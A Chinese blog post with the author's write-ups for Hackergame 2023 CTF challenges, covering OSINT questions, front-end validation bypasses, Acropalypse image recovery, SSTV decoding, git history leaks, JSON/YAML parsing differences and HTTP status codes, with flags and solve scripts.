






### 0x0 前言

本文同时发布在博客 [记录Hackergame 2023参与经历 - 星 (hoshi.tech)](https://blog.hoshi.tech/archives/161/) ，后续如有错漏修复等会更新至博客，欢迎`IP+1`。

这次`HG`刚好赶上公共假期，有时间研究，比去年要好多了，但也发现原来`HG`这么卷。凌晨3,4,5点都有人提交`flag`，麻了。


## 0x1 题目

#### Hackergame 启动

> 大声喊出 Hackergame 启动，开始今年的冒险！

好活签到，Hackergame，启动！跟历年解题思路一致，提交后修改URL中的`?similarity=100`即可。



`flag{wE1CoMe-TO-hACkergAme-@nD-3nJOY-hAcKIN9-zoZ3}`

#### 猫咪小测

> 注意看，这只可爱的橙猫猫叫小喵。
>
> 只要有阳光的地方就能见到它的身影，只要有鱼干的地方就能听到它的喵声。但今天的小喵有些不同，它的眼神充满了紧张与期待，因为一年一度的风云际会，大师喵主办的全校猫咪小测马上就要开始了。
>
> 「在科大，即使身为猫咪，也要兼备充分的科大常识、扎实的数理基础、以及独立的科研能力」大师喵蹲坐在主席台上，目光炯炯。
>
> 小喵乖巧地坐在课桌前，爪子紧按着用来答题的鼠标，似乎一松开鼠标就会自己溜走一样。
>
> 不得不承认，这场小测并不容易。
>
> 「生而为猫，我很抱歉」
>
> 后排传来了一声沮丧而近乎绝望的呜咽，应该是今年刚入校的少年喵。本就有着比众喵更小的年龄，其当年足可引以为傲的天赋在科大里却也算不上什么，于是每次测验都只能位居末流。
>
> 小喵还没来得及回头，大师喵「噌」地一下从讲台上腾跃而下，扑到后排那名猫咪的身前，用舌头细细梳理这名猫咪的后颈上的绒毛。
>
> 「不可以这样说哦，静心努力你也可以做出来的喵~」
>
> 啊，大师喵那一如既往的温柔。
>
> 少年喵非常感动。「嗯嗯我明白了。それなら別の言い方をしよう：猫として生まれて、すみません」
>
> 「给我好好做题（敲），不是要你换一种语言再说一遍啊（kusa）」
>
> 「不愧是大师喵」，小喵钦佩地望着大师喵的身影。
>
> 「这种说话还能带括号的技巧我也想学！」
>
> 提示：**解出谜题不需要是科大在校猫咪**。解题遇到困难？你可以参考以下题解：
>
> - [2018 年猫咪问答题解](https://github.com/ustclug/hackergame2018-writeups/blob/master/official/ustcquiz/README.md)
> - [2020 年猫咪问答++ 题解](https://github.com/USTC-Hackergame/hackergame2020-writeups/blob/master/official/猫咪问答++/README.md)
> - [2021 年猫咪问答 Pro Max 题解](https://github.com/USTC-Hackergame/hackergame2021-writeups/blob/master/official/猫咪问答 Pro Max/README.md)
> - [2022 年猫咪问答喵题解](https://github.com/USTC-Hackergame/hackergame2022-writeups/blob/master/official/猫咪问答喵/README.md)


参考历年题目，考察信息搜索能力。感觉今年题目比去年要简单些。

> 想要借阅世界图书出版公司出版的《A Classical Introduction To Modern Number Theory 2nd ed.》，应当前往中国科学技术大学西区图书馆的哪一层？

Google搜索`中国科学技术大学 "西区图书馆"`得到一篇西区图书馆简介，可以看到外文书库位于12楼。

> 今年 arXiv 网站的天体物理版块上有人发表了一篇关于「可观测宇宙中的鸡的密度上限」的论文，请问论文中作者计算出的鸡密度函数的上限为 10 的多少次方每立方秒差距？

Google `arXiv  可观测宇宙中的鸡的密度上限` 一篇知乎问题`你见过哪些极品论文？`的回答，其中可看到答案为23。

> 为了支持 TCP BBR 拥塞控制算法，在编译 Linux 内核时应该配置好哪一条内核选项？

Google `linux 编译 bbr config`查看各路大神的编译教程，可得答案为`CONFIG_TCP_CONG_BBR`。

> 🥒🥒🥒：「我……从没觉得写类型标注有意思过」。在一篇论文中，作者给出了能够让 Python 的类型检查器 MyPY mypy 陷入死循环的代码，并证明 Python 的类型检查和停机问题一样困难。请问这篇论文发表在今年的哪个学术会议上？

Google搜索`Python mypy infinite loop pdf`可得一篇论文名为`Python Type Hints Are Turing Complete`，其中角标Logo为`ECOOP 2023`，`ECOOP`即为答案。


flag1：`flag{W3lc0m3-to-4tTENd-7hE-neko-3Xam-Zoz3}`

flag2：`flag{r3Al-m4s73r-oF-the-NeK0-exaM-1n-uStc}`

#### 更深更暗

> 小 E 正在收看电视新闻。
>
> 「诶，你知道吗，『泰坦』号潜水艇失事了！」小 E 对旁边的小 C 说。
>
> 小 C 凑近电视机，看了一眼新闻里的画面。
>
> 「是我眼花了吗？我刚刚有一瞬间好像在残骸上看到了一个 flag？」小 C 惊讶地说。
>
> 「玩 CTF 玩的。」小 E 对此不以为然，「一定是你看错了。」
>
> 小 C 却十分相信自己没有看错。

打开F12，查看`main.js`，可以看到Flag算法明晃晃的写在其中。
```js
let token = params.get('token') || localStorage.getItem('token');

async function getFlag(token) {
    // Generate the flag based on user's token
    let hash = CryptoJS.SHA256(`dEEper_@nd_d@rKer_${token}`).toString();
    return `flag{T1t@n_${hash.slice(0, 32)}}`;
}
```
在控制台中执行
```js
let hash = CryptoJS.SHA256(`dEEper_@nd_d@rKer_${localStorage.getItem('token')}`).toString();
console.log(`flag{T1t@n_${hash.slice(0, 32)}}`);
```
即可获得结果。

`flag{T1t@n_xxxxxxxxxx}`

#### 旅行照片 3.0

> 你的学长去留学了，这一走短时间内怕是回不来了。于是，你在今年暑假来了一场计划已久的旅行，并顺路探望了这位久别的学长。翻阅当天拍下的照片，种种回忆和感慨油然而生。
>
> 请观察照片并结合所有文字内容，正确回答题目以获取 flag。

线索：
1. Google识图这枚奖牌可知其为`诺贝尔物理/化学奖奖牌`。
2. 图二餐牌上写着`らーめん 一信`，搜索可以发现全日只有一家店，附近大学为`东京大学`。
3. 图二照片中学长戴着的身份牌绳上写着`STATPHYS28`，谷歌搜索可知日期为`2023年8月7日`至`2023年8月11日`之间。
4. 据描述可图三为博物馆前拍摄。Google识图图三得知这是`上野公园`，博物馆为`东京国立博物馆`。
	1. ~~Google搜索`tokyo national museum 2023 08 07`可以找到博物馆官方的活动排期网站[TOKYO NATIONAL MUSEUM - Exhibitions and Events What's on today: August 7, 2023 (Mon) (tnm.jp)](https://www.tnm.jp/modules/r_calender/index.php?date=2023-08-07)。~~
	2. ~~发现在这期间的特别活动是`古代メキシコ展 - Ancient Mexico: Maya, Aztec, and Teotihuacan`。活动网站为[特別展「古代メキシコ」 公式サイト (exhibit.jp)](https://mexico2023.exhibit.jp/)~~
	3. ~~8月7日这天还是儿童节活动。`古代メキシコ展 「こどもの日」`。[イベント（東京会場）/ 特別展 古代メキシコ (exhibit.jp)](https://mexico2023.exhibit.jp/program-event/)~~
	4. ~~官方网站可以看到东京会场大学生票价为`1400`日元。[チケット（東京会場） / 特別展 古代メキシコ (exhibit.jp)](https://mexico2023.exhibit.jp/tickets) 或 [TOKYO NATIONAL MUSEUM - Exhibitions and Events Regular Exhibitions Japanese Archaeology and Special Exhibition (Heiseikan) Ancient Mexico: Maya, Aztec, and Teotihuacan (tnm.jp)](https://www.tnm.jp/modules/r_free_page/index.php?id=2565&lang=en)~~
5. Google地图上查看博物馆附近大学可以找到`东京艺术大学`，`东京大学`。距离拉面馆最近的大学推测为`东京大学`。


##### 题目 1-2

> 你还记得与学长见面这天是哪一天吗？（格式：yyyy-mm-dd）

线索3。答案范围为`2023-08-07`至`2023-08-11`，穷举得到`2023-08-10`。

> 在学校该展厅展示的所有同种金色奖牌的得主中，出生最晚者获奖时所在的研究所缩写是什么？

线索1, 2, 5。

Google搜索`tokyo university nobel prize`可以找到东京大学官方关于校内诺贝尔奖的介绍。[UTokyo and the Nobel Prize: A Look Back at the Achievements of Our Alumni Nobel Laureates, in their Own Words | The University of Tokyo (u-tokyo.ac.jp)](https://www.u-tokyo.ac.jp/en/whyutokyo/indpt_utokyo_nobel_017.html)

踩坑找到诺贝尔物理/化学奖得主中出生最晚的是`Ei-ichi Negishi 根岸英一`。结果不对，题目要求的是`该展厅展示的`。

重新搜索关键词`university of tokyo nobel prize exhibits`找到[Nobel Prize (u-tokyo.ac.jp)](https://www.s.u-tokyo.ac.jp/en/gallery/nobelprize/)。其中可看到出生最晚的是`Takaaki Kajita 梶田隆章`。

描述中提到他所属`Institute for Cosmic Radiation Research at the University of Tokyo`。Google搜索可得答案为`ICRR`


` flag{how_I_wi5h_i_COulD_w1N_A_Nobe1_pri23_80459bbac7}`


##### 题目 3-4

> 帐篷中活动招募志愿者时用于收集报名信息的在线问卷的编号（以字母 S 开头后接数字）是多少？

踩完线索4里的坑，解完题目1-2，推特搜索`上野公園 until:2023-08-11 since:2023-08-07`。再加上题目1穷尽出的日期日期8月10日。着重查看当天的推文，可以看到当天的活动是梅酒祭[ X 上的 いちご大福：“上野公園の梅酒祭り](https://twitter.com/Daifukuchan_795/status/1689632319265816576)。

Google搜索`上野公園の梅酒祭り`找到官方网站说明[全国梅酒まつりin東京2023｜全国梅酒まつり (umeshu-matsuri.jp)](https://umeshu-matsuri.jp/tokyo_ueno/)。

下滑到`会場情報`可以看到招募工作人员的链接[ボランティアSTAFF大募集！！第６回「全国梅酒まつりin東京2023」｜全国梅酒まつり (umeshu-matsuri.jp)](https://umeshu-matsuri.jp/tokyo_staff/)。

其中就有募集表单地址：[https://ws.formzu.net/fgen/S495584522/](https://ws.formzu.net/fgen/S495584522/)。所以答案是`S495584522`。

> 学长购买自己的博物馆门票时，花费了多少日元？

线索4踩坑几个试了都错误，突发奇想填了个`0`元正确了。然后找了下是东京大学学生参加常规展览无限次免费，[国立博物館・美術館の利用 | 東京大学 (u-tokyo.ac.jp)](https://www.u-tokyo.ac.jp/ja/students/facility/h17.html)。

` flag{PluM_w1NE_1S_rEa1LY_EXpen5iVE_1680fe1496}`


##### 题目 5-6

> 学长当天晚上需要在哪栋标志性建筑物的附近集合呢？（请用简体中文回答，四个汉字）

踩[乗船場所 | 東京・横浜の貸切クルーズ専門 リュクスクルーズ (charter-cruiser.com)](https://www.charter-cruiser.com/boarding_area/#bdspot_591)

[レインボーブリッジ | 東京・横浜の貸切クルーズ専門 リュクスクルーズ (charter-cruiser.com)](https://www.charter-cruiser.com/tokyo_cruise/29/)

这题各种关键词搜了快一天，还是没解出来...

但我知道了船游东京的方式，家人们瞧瞧：

- 有现代化乘船体验的`TOKYO CRUISE`，浅草码头、天王洲等出发。
- 有餐饮体验的晴海屋屋形船，吾妻桥出发。
- 有怀旧体验的江户前汽船，品川船清出发。
- 有夏日祭体验的东京湾纳凉船，竹芝码头出发。
- 有公交车体验的`SKY Duck`台场或晴空塔出发。
- 有公园体验的`TOKYO WATER TAXI`，随心出发。

后来有想到可能和`学术之旅`有关，但是不知道东大有哪些活动，暂时弃了。


> 进站时，你在 JR 上野站中央检票口外看到「ボタン＆カフリンクス」活动正在销售动物周边商品，该活动张贴的粉色背景海报上是什么动物（记作 A，两个汉字）？ 在出站处附近建筑的屋顶广告牌上，每小时都会顽皮出现的那只 3D 动物是什么品种？（记作 B，三个汉字）？（格式：A-B）

A: 推特搜索`ボタンアンドカフリンクス`能找到活动海报[(https://twitter.com/panda_life/status/1688436626895331328](https://twitter.com/panda_life/status/1688436626895331328)。动物是`熊猫`。

B: Google搜索`JR 上野駅 `。翻了翻用户照片，没有找到广告牌。然后从`正面口`进街景地图，一路找到`広小路口`，发现这里是多数用户拍照的出入口。四周观察了下看到出入口正对面有个小型LED广告屏幕[中央通り - Google 地图](https://www.google.com/maps/@35.7115185,139.7754721,3a,56.1y,181.56h,117.49t/data=!3m9!1e1!3m7!1s1DUoglDttgi0ywl7eScVgQ!2e0!7i16384!8i8192!9m2!1b1!2i27?entry=ttu)，上面写着`NAGATA`。

Google图片搜索关键词`上野駅 NAGATA`，第一个结果就是[4月, 2022 - 長田広告 | LED COMMUNITY VISION (nagata-lcv.com)](https://nagata-lcv.com/2022/04/)。

进入文章[JR上野駅広小路口前スポーツジュエン屋上 - 長田広告 | LED COMMUNITY VISION (nagata-lcv.com)](https://nagata-lcv.com/jr上野駅広小路口前スポーツジュエン屋上/)，下翻内容部分有个YouTube视频3D猫头鹰展示。

猜测猫头鹰可能就是他们家广告屏的固定展示内容了。

`熊猫-猫头鹰` 猜对一半。


#### 赛博井字棋

> 那一年的人机大战，是 AlphaGo 对阵柯洁，最终比分 3-0。当时我看见柯洁颓坐在椅子上泣不成声，这个画面我永生难忘。那一刻我在想，如果我能成为一名棋手，我一定要赢下人工智能。如今 AI 就在眼前，我必须考虑这会不会是我此生仅有的机会。重铸人类围棋荣光，我辈义不容辞！
>
> ……
>
> 但是围棋实在太难了，你决定先从井字棋开始练习。

F12看`script.js`和提交的数据，可得知提交格式`{"x": "0","y": "0"}`。

首先试了试提交过界数值，发现没反应，然后尝试把`x`改成`0,1,2`连续提交发现成了。那这题就是只做了前端校验，没做后端校验，把对手棋子覆盖了。


`flag{I_can_eat_your_pieces_707465548e}`

#### 奶奶的睡前 flag 故事

> （以下内容由 GPT 辅助编写，如有雷同纯属巧合）
>
> 晴空万里的假期终于拍了拍翅膀飞来了。对于一心想扔掉教材、砸掉闹钟、跃向世界的 L 同学来说，期待了整整三年的跨国旅游大业终于是时候启动了，还能巧妙地顺带着做个美满的老友记。
>
> 可是，哎哟喂，他刚踩上波光粼粼的金沙海滩，那他最疼爱的华为手机就跟着海风一起去约会了大海，连他的钱包也在这场未知探索之旅中神秘失踪。
>
> 「这个地方怎么连个华为手机都不卖。若是买个苹果手机，心疼的是它连个实体 SIM 卡槽都藏起来了，回国肯定成了个大摆设。不如来个**谷歌的『亲儿子』**？」L 同学踌躇满志地嘀咕道。
>
> 那时，像是上天的安排，「咱这儿正好有个**谷歌『亲儿子』**的老手机，你拿去逍遥吧」。
>
> L 同学满眼星光地接过，**连系统都没心思升级**，就开始疯狂安装那个久闻大名的 GPT 程序，甚至雀跃地在群里晒出一张跟 GPT 对话的精彩**截图**，一时间成为了群里的焦点人物。

提取题目的加粗部分信息，Google搜索`pixel 截图 漏洞`得到本题利用漏洞为`Acropalypse`。

GitHub能找到个工具[GitHub - frankthetank-music/Acropalypse-Multi-Tool: Easily detect and restore Acropalypse vulnerable PNG and GIF files with simple Python GUI.](https://github.com/frankthetank-music/Acropalypse-Multi-Tool)。

跑起来选`Restoring Tool`，丢图片进去选`Pixel`手机运行即可出结果。


`flag{sh1nj1ru_k0k0r0_4nata_m4h0}`

「*信じる心があなたの魔法よ*」


#### 组委会模拟器

> 每年比赛，组委会的一项重要工作就是时刻盯着群，并且撤回其中有 flag 的消息。今年因为人手紧张，组委会的某名同学将这项工作外包给了你，你需要连续审查 1000 条消息，准确无误地撤回其中所有含 flag 的消息，并且不撤回任何不含 flag 的消息。
>
> 本题中，你需要撤回的 "flag" 的格式为 **`hack[...]`**，其中**方括号**内均为小写英文字母，点击消息即可撤回。你需要在 3 秒内撤回消息，否则撤回操作将失败。在全部消息显示完成后等待几秒，如果你撤回的消息完全正确（撤回了全部需要撤回的消息，并且未将不需要撤回的消息撤回），就能获得本题**真正的 flag**。

F12，手动撤回几条消息后查看请求发现共有3个API
- `/api/getMessages`包含全量消息。
- `/api/deleteMessage`提交撤回的消息ID，返回撤回结果。
- `/api/getflag`按时间循环完全部消息后调用获取flag。

请求上打断点能溯源找到源码的位置`QQChat.vue`。

```js
  created() {
    const urlParams = new URLSearchParams(window.location.search)
    axios
      .get('/api/checkToken', { params: urlParams })
      .then(() => {
        // 清除 URL 栏的 query
        window.history.replaceState({}, '', '/')
        axios
          .post('/api/getMessages')
          .then((res) => {
            const data = res.data as BackendResponse

            const messages: BackendMessage[] = data.messages
            this.count = messages.length
            for (const message of messages) {
              this.timers.push(
                setTimeout(() => {
                  this.messages.push({
                    name: this.randomString(), // random username
                    message: message.text,
                    type: 'NormalMessage',
                  })
                  this.count = (this.count as number) - 1
                  // wait for DOM render
                  this.$nextTick(() => {
                    // try get fake container element and init onscroll event
                    if (!this.fakeContainerElement) {
                      this.fakeContainerElement = document.querySelector('.fakeqq-container')
                      if (this.fakeContainerElement) {
                        // init onscroll event only once
                        this.fakeContainerElement.onscroll = () => {
                          const offsetHeight = this.fakeContainerElement?.offsetHeight ?? 0
                          const scrollHeight = this.fakeContainerElement?.scrollHeight ?? 0
                          const scrollTop = this.fakeContainerElement?.scrollTop ?? 0
                          if (offsetHeight + scrollTop >= scrollHeight - 10) {
                            this.stopScroll = false
                          } else {
                            this.stopScroll = true
                          }
                        }
                      }
                    }
                    if (!this.stopScroll) {
                      this.currentScrollHeight = this.fakeContainerElement?.scrollHeight ?? 0
                      this.fakeContainerElement?.scrollTo(0, this.currentScrollHeight)
                    }
                  })
                }, message.delay * 1000)
              )
            }

            this.timers.push(
              setTimeout(() => {
                axios
                  .post('/api/getflag')
                  .then((res) => {
                    const data = res.data
                    if (data.success) {
                      alert('恭喜你，flag 是：' + data.flag)
                    } else {
                      alert('获取 flag 失败，原因：' + data.error)
                    }
                  })
                  .catch(() => {
                    alert('网络错误，请刷新页面重新开始')
                  })
              }, messages[messages.length - 1].delay * 1000 + 5000)
            )
          })
          .catch(() => {
            alert('网络错误，请刷新页面重新开始')
          })
      })
      .catch(() => {
        window.location.href = '/api/checkToken'
      })
  },
```


有两个解题思路，一是hook前端调用撤回方法实现自动撤回消息，二是模拟请求。

这里选取第二种较易实现，看源码可以发现就是简单的根据服务器返回的`delay`值`setTimeout()`循环。

答案实现代码：

```python
import requests
import re
import sys
from threading import Timer

BASE_URL = 'http://202.38.93.111:10021'
COOKIE = ''

headers = {
    'Connection': 'keep-alive',
    'Accept': '*/*',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.30',
    'X-Requested-With': 'XMLHttpRequest',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,en-US;q=0.7,zh-TW;q=0.6',
    'Cookie': COOKIE
}


def set_time_out(fn, s, *args, **kwargs):
    t = Timer(s, fn, args=args, kwargs=kwargs)
    t.start()
    return t


def revoke_msg(msg_id, content):
    print(f'revoke msg {msg_id} {content}')
    res = requests.post(f'{BASE_URL}/api/deleteMessage', headers=headers, json={'id': msg_id})
    if '"success":true' not in res.text:
        print(res.text)
        sys.exit(1)


def get_flag():
    print(requests.post(f'{BASE_URL}/api/getflag', headers=headers).text)


msgs = requests.post(f'{BASE_URL}/api/getMessages', headers=headers).json()['messages']

i = 0
for m in msgs:
    regex = r'hack\[[a-z]+\]'
    if re.search(regex, m['text']):
        set_time_out(revoke_msg, m['delay'] + 0.5, i, m['text'])
    i += 1

set_time_out(get_flag, msgs[-1]['delay'] + 5)

```


`flag{Web_pr0gra_mm1ng_f1752a443c_15fun}`


#### 虫

> 「生而为人，应该能够换尿布、策划入侵、杀猪、开船、造房子、写十四行诗、算账、建墙、正骨、抚慰临终之人、接受命令、下达命令、合作、独行、解决方程式、分析新问题、清理马粪、编程、烹饪美食、高效战斗、英勇牺牲。专业分工是给昆虫准备的。」—罗伯特·海莱恩（Robert Heinlein）
>
> 你觉得还是当昆虫轻松一些。
>
> 这时，你看到一只昆虫落在你面前，发出奇怪的叫声。你把这段声音录制了下来：这听起来像是一种**通过无线信道传输图片的方式**，如果精通此道，或许就可以接收来自国际空间站（ISS）的图片了。
>
> **[打开/下载题目](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/虫/files/insect.wav)**

根据题干关键词搜索`无线电传输图片 国际空间站`可以找到很多接受空间站图片`SSTV`信号相关文章。得到关键词`SSTV`。

继续搜索`sstv audio decoder`找到[GitHub - colaclanth/sstv: SSTV Decoder](https://github.com/colaclanth/sstv)。

`sstv -d insect.wav -o result.png`即可解出。



`flag{SSssTV_y0u_W4NNa_HaV3_4_trY}`

#### Git? Git!

> 「幸亏我发现了……」马老师长吁了一口气。
>
> 「马老师，发生甚么事了？」马老师的一位英国研究生问。
>
> 「刚刚一不小心，把 flag 提交到本地仓库里了。」马老师回答，「还好我发现了，撤销了这次提交，不然就惨了……」
>
> 「这样啊，那太好了。」研究生说。
>
> 马老师没想到的是，这位年轻人不讲武德，偷偷把他的本地仓库拷贝到了自己的电脑上，然后带出了实验室，想要一探究竟……
>
> **[打开/下载题目](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/Git Git!/files/ML-Course-Notes.zip)**

看题目考察的是Git信息泄露，Google搜索`git 泄露`出来许多结果，其中[从git原理角度浅谈.git泄露利用原理-安全客](https://www.anquanke.com/post/id/236487)这边讲解的比较细致。

且文中提到了两个轮子，测试[GitHub - gakki429/Git_Extract: 提取远程 git 泄露或本地 git 的工具](https://github.com/gakki429/Git_Extract)可以直接完成还原。

克隆后直接运行`python2 git_extract.py ../ML-Course-Notes/.git`，可以发现根目录多了两个哈希结尾的README文件。

都丢进Diff工具里查看差异即可得到flag。



`flag{TheRe5_@lwAy5_a_R3GreT_pi1l_1n_G1t}`


#### JSON ⊂ YAML?

> 你知道吗？Hackergame 出题时，每道题都需要出题人用 YAML 格式写下题目的关键信息。然而，每年总有一些出题人在编写 YAML 文件时被复杂的语法规则弄得头疼不已。
>
> 这天小 Z 又找到小 W 说：「我昨天写 YAML 时，又花了半天研究 YAML 的规范，YAML 好难啊！」
>
> 小 W 惊讶道：「怎么会有人不会写 YAML 呢？只要你会写 JSON 就会写 YAML 呀，因为任何合法的 JSON 本身就是合法的 YAML。」
>
> 小 Z 听闻这番言论后当场表示怀疑，立刻说出了一个字符串，JSON 和 YAML 解析出的含义存在差异。小 W 研究了一番才发现，这是因为很多主流的 YAML 库仍然是 YAML 1.1 的，它没有这个性质。他不得不承认：「好吧，这个性质只适用于 YAML 1.2。」
>
> 小 Z 笑了：「别提 YAML 1.2 了，它遇到合法的 JSON 都有可能报错。」
>
> **[下载题目源代码](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/JSON%20%E2%8A%82%20YAML/files/yaml_vs_json.py)**
>
> 你可以通过 `nc 202.38.93.111 10096` 来连接，或者点击下面的「打开/下载题目」按钮通过网页终端与远程交互。

啊？原来`YAML`是`JSON`超集吗？用了这么久却不知道，对不起，我退群。

##### JSON ⊄ YAML 1.1

根据题意搜索关键词`yaml json inconsistent`能找到 [What valid JSON files are not valid YAML 1.1 files? - Stack Overflow](https://stackoverflow.com/questions/21584985/what-valid-json-files-are-not-valid-yaml-1-1-files)  这个问题中。其中指出`12345e999`在YAML中是字符串，在JSON中是无限大。甚至问题中有提出YAML 1.2的限制是不能存在重复Key。

那么第一题提交

```JSON
{"t":12345e999}
```

即可。


`flag{faf9facd7c9d64f74a4a746468400a5052647c697d}`

##### JSON ⊄ YAML 1.2

第一题中找到的问题中已经提到了YAML 1.2的限制

> YAML 1.2 is (with one [minor caveat](http://yaml.org/spec/1.2/spec.html#id2759572) regarding duplicate keys) a superset of JSON

打开给出的链接可以看到详情

> JSON's [RFC4627](http://www.ietf.org/rfc/rfc4627.txt) requires that [mappings](http://yaml.org/spec/1.2-old/spec.html#mapping//) [keys](http://yaml.org/spec/1.2-old/spec.html#key//) merely “SHOULD” be [unique](http://yaml.org/spec/1.2-old/spec.html#equality//), while YAML insists they “MUST” be. Technically, YAML therefore complies with the JSON spec, choosing to treat duplicates as an error. In practice, since JSON is silent on the semantics of such duplicates, the only portable JSON files are those with unique keys, which are therefore valid YAML files.

那么第二题提交

```JSON
{"t": 1,"t":12345e999}
```

即可。


`flag{b1c73f14d04db546b7e7e24cf1cc72529cf1d012d7}`


#### HTTP 集邮册

> > 「HTTP 请求一瞬间就得到了响应，但是，HTTP 响应的 status line、header 和 body 都是确实存在的。如果将一个一个 HTTP 状态码收集起来，也许就能变成……变成……变成……」
> >
> > 「flag？」
> >
> > 「就能变成 flag！」
>
> ------
>
> 本题中，你可以向一个 nginx 服务器（对应的容器为**默认配置下的 `nginx:1.25.2-bookworm`**）发送 HTTP 请求。你需要获取到不同的 HTTP 响应状态码以获取 flag，其中：
>
> - 获取第一个 flag 需要收集 5 种状态码；
> - 获取第二个 flag 需要让 nginx 返回首行无状态码的响应（不计入收集的状态码中）；
> - 获取第三个 flag 需要收集 12 种状态码。
>
> 关于无状态码的判断逻辑如下：

##### 没有状态……哈？

[HTTP 的发展 - HTTP | MDN (mozilla.org)](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Basics_of_HTTP/Evolution_of_HTTP)

> 跟后来的版本不同，HTTP/0.9 的响应内容并不包含 HTTP 头。这意味着只有 HTML 文件可以传送，无法传输其他类型的文件。也没有状态码或错误代码。

发送

```http
GET / \r\n\r\n
```

得到flag。

`flag{great backward compatibility of nginx, R1ght?}`


##### 5 种状态码

##### 12 种状态码

考察HTTP基础知识，想起哪个发哪个，想不起就翻[HTTP 响应状态码 - HTTP | MDN (mozilla.org)](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Status)。

- 200 OK

  ```http
  GET / HTTP/1.1\r\n
  Host: example.com\r\n\r\n
  ```

- 304 Not Modified

  ```http
  GET / HTTP/1.1\r\n
  Host: example.com\r\n
  If-None-Match: "64dbafc8-267"\r\n\r\n
  ```

- 400 Bad Request

  ```http
  GET / HTTP/1.1\r\n
  Hos: example.com\r\n\r\n
  ```

